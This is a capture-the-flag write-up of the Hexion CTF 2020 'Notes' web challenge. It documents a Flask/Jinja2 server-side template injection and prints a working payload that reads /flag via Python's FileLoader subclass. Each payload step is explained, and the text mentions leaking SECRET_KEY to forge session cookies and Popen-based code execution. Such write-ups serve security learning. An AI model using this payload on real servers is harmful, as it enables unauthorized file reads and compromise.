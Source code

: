 # Notes

This task was part of the 'Web' category at the 2020 Hexion CTF (during 11-13 April 2020).
It was solved [The Maccabees](https://ctftime.org/team/60231) team.



## The challenge

The challenge description contained only a link to a website:

```
http://challenges1.hexionteam.com:2001
```

When viewing the website in the browser - we get a simple "notes" application, where you can:

* Fill the textbox and hit the "Create" button, which creates a new note.
* View all the notes created so far.
* Hit the "Reset" button, removing all existing notes.

Example for how that looks in the browser:

![notes-web-empty](/home/orc/Projects/CTFs/Writeups/TheMaccabeesWriteups/HexionCTF2020/Notes/notes-web-empty.png) **--->** ![notes-web-empty](/home/orc/Projects/CTFs/Writeups/TheMaccabeesWriteups/HexionCTF2020/Notes/notes-web-filled.png)

In addition, in the received HTML page, there is a comment:

```html
<!-- DEPRECATED <script>
    $.getJSON("/notes", (res) => {
        res.forEach(o => {
            notesList.append(document.createTextNode(o));
        });
    });
</script> -->
```

This hints a hidden interface hidden under the "/notes" URI. And indeed, browsing to this interface shows us in a list (in a Python/JS formatting) of the current notes.
For example, browsing there for the current notes sends us the response:

```
['dsadsadsa', 'la la la']
```



Our first attempts were to inject some delimiter characters in order to try to fiddle with this formatting - none worked (trying to inset `, ", ', --, <, >, etc.).

 Another thing we discovered - if we remove the 'text=' parmater in the POST request that adds another note, and then browse to "/notes", it seems like we fill a new entry in the list with the `None` value:

```
[None]
```

This hints us that this is a python implementation (also obvious by the server being gunicorn - variation of Flask).



## The solution

After playing with it a lot, we figured out the solution is that this implementation is vulnerable to SSTI - **Server-Side Template Injection**, in Flask.

This class of vulnerabilities relies on the fact that Flask (among other web engines) renders "templates" of payloads with data from the environment (in this case - python). If this template, before rendering, is constructed using unsanitized user-input - we can modify the template in order to gain code execution on the server.

The easy way to check if implementation is vulnerable to SSTI is to input the data `{{7 * 7}}`, and see if it renders as `49` in some manner.

And indeed, inserting a note with these contents, and then browsing to `/notes`, we receive the response `['49']`.

From here, the main challenge is to write a python payload that will leak the flag, given the constraints. The main problem is that we can't `import` anything, and can't use builtins from the python environment.

Some good resources about SSTI:

* [SSTI in Flask/Jinja2](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) - good article explaining the bugclass + a walkthrough exploitation (which is very similar to our final exploit).
* [Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) - a nice cheatsheet for SSTI exploitation methods.

Notice that in both cases, the exact exploit details won't work as-is here - because difference in the environment, and differences between python2 and python3 (most example online are about python2, but we use python3).

Given this knowledge, constructing the final solution is easy. We will try to construct a solution that read a file from the server filesystem and shows us its content (this is under the assumption that the flag is in some predictable path, such as `/flag`). 

notes-web-emptyThe final solution looks like this - we can just paste the following string and add it as a note:

```
{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag").get_data("/flag") }}
```

Afterwards, we get the following result on `/notes`: 

```
['b'hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}\n'\r\n\r\n']
```

Which means the flag is `hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}`!

Simple explanation of the exploit, and the meaning of each part (each part can be evaluated separately for inspection):

1. `{{ config }}` - this is an object which Flask export to templates, containing the current instance configuration. This can also be useful in order to leak flask secret (in some CTF challenges - the flag is just saved as a configuration variable; also, the `SECRET_KEY` can be used in order to decrypt and forge Flask session cookies).
2. `{{ config.items() }}` - because `config` is a key-value dict, we just take the values.
3. `{{ config.items()[4] }}` - just take some random item from the configuration (which derives from `object`).
4. `{{ config.items()[4].__class__ }}` - the class of the object (in our case - `<class 'jinja2.runtime.Undefined'>`).
5. `{{ config.items()[4].__class__.__mro__ }}` - the MRO (method resolution object) of the class. This is basically an iterator of all superclasses of the class.
6. `{{ config.items()[4].__class__.__mro__[1] }}` - we just took the last class in the MRO - this is just `<class 'object'>`.
7. `{{ config.items()[4].__class__.__mro__[1].__subclasses__() }}` - these are all the available subclasses of the class `object` (which obviously should be all available classes).
8. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79] }}` - this is the class `<class '_frozen_importlib_external.FileLoader'>'`. We will abuse it in order to read the content of a file on the filesystem.
9. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag")` - this is a construction of an instance of the `FileLoader` object (the two parameters doesn't really seem to matter - but them as the flag path just in case).
10. `{{ config.items()[4].__class__.__mro__[1].__subclasses__()[79]("/flag", "/flag").get_data("/flag") }}` - this calls the `get_data` method of the `FileLoader` object we created, in order to read the data from the flag file (located in `/flag` on the server machine).

(Another option we had was to use `subprocess.Popen` or something similar in order to run arbitrary code on the machine - but it was not needed here, as reading a file was enough in order to get the flag).

